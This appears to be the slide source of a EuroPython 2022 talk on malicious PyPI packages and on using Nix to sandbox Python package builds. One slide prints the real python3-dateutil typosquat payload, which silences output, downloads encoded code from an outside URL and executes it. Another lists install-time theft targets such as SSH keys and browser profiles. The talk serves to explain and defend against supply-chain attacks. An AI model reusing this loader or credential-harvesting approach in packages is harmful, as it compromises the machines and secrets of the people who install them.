


<!-- TODO: peut être avoir le projet poetry2nix faire fonctionner -->

# Context: a package, a user

## This talk

\Huge
<https://github.com/RaitoBezarius/europython2022>

## A package

In Python, a package is a tree of files with a `__init__.py` in its root folder, the name of the root folder is the name of the package.

You can import it with `import <name of the folder>` if you are under the right conditions (import paths, etc.).

. . .

Everything we install from any PyPI-like server (including <https://pypi.org>), with any Python package manager: `pip`, `poetry`, `pipenv`, etc., is **a package**.

## A user

Given a user of Python, he may install packages, according to the previous definition.

. . .

We use a computer, running an operating system (your favorite Linux distribution, Windows, macOS, BSD, etc.). Most likely, on our computer, there are some source code, SSH keys, personal files, professional files, secrets — in short, there are valuable targets.

. . .

We can extend the context to servers and deployments with different considerations and valuable targets, but it is the same, just change the human interaction by automation with any continuous deployment system, if you have any.

## Valuable targets reachable at install-time

> - SSH keys: iterate over `~/.ssh` and dump them over Internet ;
> - SSH servers: dump `~/.ssh/config` and `~/.bash_history`, etc. ;
> - Browser profiles: dump `~/.config/{Firefox,…}` ;
> - You name it

## How to publish a package to PyPI?

Basically, write down instructions to use your package, e.g. metadata (authors, license, etc.) and **perform some operations**.

. . .

In Python, historically, a package is installed by executing its `setup.py` which exposes an install command, i.e. `python setup.py install`.

. . .

Then, this code gets shipped to PyPI and you run it arbitrarly in some sort of virtualenv at install-time.

# Real-world examples

## `dateutil` and Python 2 → 3 transitions

`dateutil` is quite well-known.

. . .

Python 2 to Python 3 transition was painful and some packages started to be published under the name `python3-PACKAGE`.

. . .

Well, someone published `python3-dateutil` — alas, it was not innocent.

## `python3-dateutil` malware



## `python3-dateutil` payload

```python
raise Exception("Exception added to prevent people from running this accidentally")
import re,sys,os
_out,_err=sys.stdout,sys.stderr
sys.stdout,sys.stderr=open(os.devnull,'wb'),open(os.devnull,'wb')
try:
 try:from urllib2 import urlopen
 except:from urllib.request import urlopen 
 exec(zlib.decompress(base64.b16decode(re.sub(
  r'[^0-9abcdef]','',urlopen('http://bitly.com/25VZxUbmkr').read().decode('utf-8'),flags=re.MULTILINE
 )[4:-4].upper())))
except:pass
sys.stdout,sys.stderr=_out,_err
```

## Is this an isolated example?

> - 2 March 2021, PyPI nukes 3,653 malicious packages
> - Some packages were definitely downloaded, i.e. $\geq$ 10k downloads (`dppclient`) ;
> - PyPI rolled out mandatory 2FA for "critical" packages^[With some philosophical questions about the responsibility for maintainers to adhere to security constraints of an index.]

## Why arbitrary code execution in packaging is needed?

Installing packages is mostly declarative in general, e.g. Python dependencies are declared and `pip` uses this to perform the topological sort, and some version resolution.

But, what about:

> - System-level dependencies, e.g. `lxml`? Is it `pip` responsibility to ensure coordination with system package manager? What about people who do not have system package manager?
> - Variants of library interfaces, e.g. Intel MKL vs OpenBLAS in downstream numerical libraries such as SciPy or NumPy or CUDA in TensorFlow ?
> - Non-purely Python packages, e.g. hybrid projects which uses another language and Python — Rust/Python like `cryptography` ;

## Why arbitrary code execution in packaging is needed?

Slide is too long.

> - CPU-specific features, e.g. AVX512 accelerated procedures ;
> - Fine-tuning operations, e.g. preprocessing static data at install-time, fetching large data which is not published (ML binary models) ;
> - Tracking versions based on SCM, e.g. version should show the most relevant data — Git SHA1 hashes, version numbers, etc.

## This is possible because there is no alternative

This is possible because:

> - Linux distributions have all a way to do a thing, some are source-based, some are binary-based ;
> - Software authors makes assumptions as there is no easily discoverable standard, e.g. `pkg-config` to discover library paths ;

. . .

Downstream authors does workarounds and support major platforms as it is too difficult to have a uniform environment, **hence**, the success of Docker and friends.

# So what ? — Heh, Nix crash course

## What is Nix?

Nix <https://nixos.org/> is a **general** package manager based on the **functional** Nix language.

> - Provoking idea: break the filesystem hierarchy standard of UNIX, e.g. no `/usr`, etc, and everything (except `/home`, state) is a symlink to `/nix/store`
> - Everything in the `/nix/store` is recorded in a database, addressed by a cryptographic hash and a nice name
> - "Packages" are part of a more general concept: derivations which are described in the Nix language and produce **outputs** (can be a systemd unit file, a Bash script, etc.)

## The Filesystem Hierachy in UNIX-like systems

\begin{figure}[!ht]
  \centering
  \includegraphics[width=0.6\textwidth]{./fhs.png}
  \caption{Typical Ubuntu filesystem hierarchy, by Wikipedia}
\end{figure}

## What is Nix?

Nix is a **general** package manager based on the **functional** Nix language.

\tiny
```{.nix emphasize=1-1,1:2-1:5,2-19}
{ pkgs ? import <nixpkgs> {} }: # A function signature
pkgs.buildPythonPackage rec { # A function call, "rec" is that keyword args can refer to themselves
  pname = "toolz"; # It looks like keyword arguments in Python
  version = "0.10.0";

  src = fetchPypi {
    inherit pname version; # is equivalent to "pname = pname; version = version;"
    sha256 = "08fdd5ef7c96480ad11c12d472de21acd32359996f69a5259299b540feba4560";
  };

  doCheck = false; # do not attempt to run tests if there are any

  meta = with lib; { # "with" is "from lib import *" but local to the scope
    homepage = "https://github.com/pytoolz/toolz";
    description = "List processing tools and functional utilities";
    license = licenses.bsd3;
    maintainers = with maintainers; [ fridh ];
  };
}
```

## Anatomy of a Nix path

\footnotesize
\texttt{/nix/store/{\only<2>{\color{red}}40n9pd613v8fc3x39yjrgs1i7d4q8yl0}-{\only<3>{\color{red}}python3-3.10.4}/{\only<4>{\color{red}}bin/python3}}

## Glossary of Nix terms

- **Nix store**: the filesystem which records for the actual derivations and a database containing important metadata, can be a network FS or an Amazon S3 bucket!
- **Store path**: either outputs (e.g. binaries, configuration files) produced by a derivation file or a derivation file
- **Derivation**: Nix expression describing a build action, the recipe of all software, including the NixOS Linux system which is just one big derivation!
- **Closure**: in mathematics, given a binary relation, you can compute the "transitive closure", here, we look at the relation software $X$ depends on software $Y$ and the "transitive closure" is **all the dependencies** you need until the most basic one, most often, a C compiler, a kernel, etc.

## Why would that strange thing be useful?

Nix treated supply chain security before it was cool.

\small

> - Build reproducibility as a goal: derivations are input-addressed, or content-addressed!^[Well, there are more models because software is hard, so ask me offline!]
> - Build operations are **sandboxed** by default: no network access, no arbitrary access to the user filesystem or even "installed" dependencies, only what is declared, software cannot phone home!
> - Strict and well-disciplined: escape hatches exist but they co-exist in the model, i.e. usage of user namespaces to pretend-live in a FHS, etc.
> - Composition with local package managers: painful but leveraging **existing tooling** is key to nixpkgs size.
> - Trivial caching: by reproducibility, we only build software more or less once and Nix does aggressive (valid) caching

## Why would that strange thing be useful?



## Reproducible builds

**NixOS** minimal image is mostly reproducible, at the time of writing, only Python 3.9.13 (!) and some Rust binding generator tool are unreproducible paths, modulo two unchecked paths.

**Check it yourself** : <https://r13y.com>

# How can we leverage Nix as a tool?

## Situation

Nix is very strict and the world outside is quite forgiving, hence:

> - Reuse existing tooling like `pip` or `poetry` without giving them network access, neither arbitrary filesystem access or cache access ; 
> - Downloading, native dependencies sourcing, etc. is left to Nix and captured in a Nix expression ;
> - `pip`, `poetry`, etc. acts as they are doing an offline install of some magically available packages that we wanted :)

## Demo 1: let me get you really quickly a Python shell ready for datascience :-)

Here, we use the nixpkgs infrastructure to create a Python environment by the use of user sites mechanisms (PEP 370), we are not leveraging the usual virtualenv software!

## Demo 2: self-contained Python script!

Here, we make it even more user-friendly with she-bangs (`#!`) interpreter functionality of shells.

# Limits and Outlook

## Learning curve is insane

\begin{figure}[ht!]
  \centering
  \includegraphics[width=0.6\textwidth]{./curve.jpg}
  \caption{Nix is hard, it is getting better but honesty is important.}
\end{figure}

## Limits : Nix cannot solve everything

> - Security: tracking which software is used is easy, but CVE information based on Nix reproducible software do not exist in an automated way!
> - Tooling that takes lockfiles and produces Nix expressions are not enough: a lot of edge cases exist in many registries.
> - Limits of standards such as `setup.py` and the necessity to support legacy induces atrocious hacks like **downloading** a Rust compiler during package **installation**.
> - Advanced attackers: they move to bugdoors and this gets **very** complicated.

<!-- Overrides with `poetry2nix`: https://github.com/nix-community/poetry2nix/blob/7d3d2d7f2286c019669ea16b02def534145f2a45/overrides/default.nix#L320-L360 -->

## Outlook

> - More foundational work to be compatible with Python: bytecode optimizations determinism (`pyo`), building wheels according to PEP600, etc.
> - Trustix: solve distributed trust issues, e.g. how do you trust that PyPI has non-backdoored wheels, can a friend of yours reproduce the wheel build?
> - SLSA framework/SBOMs <https://slsa.dev>: Nix makes it easy to get high level of assurances in your supply chain and integrations with the ecosystem are being published

## Conclusion

> - Installing packages in Python is dangerous by construction, fixing this is an open question ;
> - Attacks are running in the wild and we can only measure the public surface (i.e. PyPI index) ;
> - Raising the cost for attackers can be done with constraining the attack surface with defense in depth
> - Nix provides a way to achieve this
> - But the real win are: data produced by Nix, integration with the external ecosystem, and so more.

# References

- https://github.com/NixOS/nix-book (The Nix Book, 2022)
- https://edolstra.github.io/pubs/phd-thesis.pdf (The "Nix" thesis, The Purely Functional Software Deployment Model, **2006**)
- https://av.tib.eu/media/39614 (NixCon 2018 — About the Nix sandboxes and breakpoints, 2018)
- https://bernat.tech/posts/pep-517-518/ (Python packaging - Past, Present, Future, 2019)
- https://arxiv.org/pdf/2002.01139.pdf (Towards Measuring Supply Chain Attacks on Package Managers for Interpreted Languages, 2020)
- https://www.haskellforall.com/2022/03/the-hard-part-of-type-checking-nix.html ("The Hard Part of type-checking Nix", 2022)

# Questions

## Why Docker is not better for some definition of better?

> - Shell scripts that download random stuff from the Internet are not very reproducible.
> - Dockerfile is a problematic format, e.g. enable only one `FROM`, no treeshaking of the image
> - All semantic important information about the system is usually lost
> - Docker semantics are complicated, e.g. network, mounts
> - Tight integration with your local system is difficult in some cases

## Why would people switch to an obscure tooling such as Nix?

> - The Haskell community had great success with using Nix in a lot of scenarios
> - <https://repl.it> is running (almost) entirely on Nix: <https://arewenixyet.com/>
> - Nix can co-exist with your local package system manager, e.g. `apt-get`, etc.
> - Of course, Nix is not the final stop, but it is an incredible tooling on its own
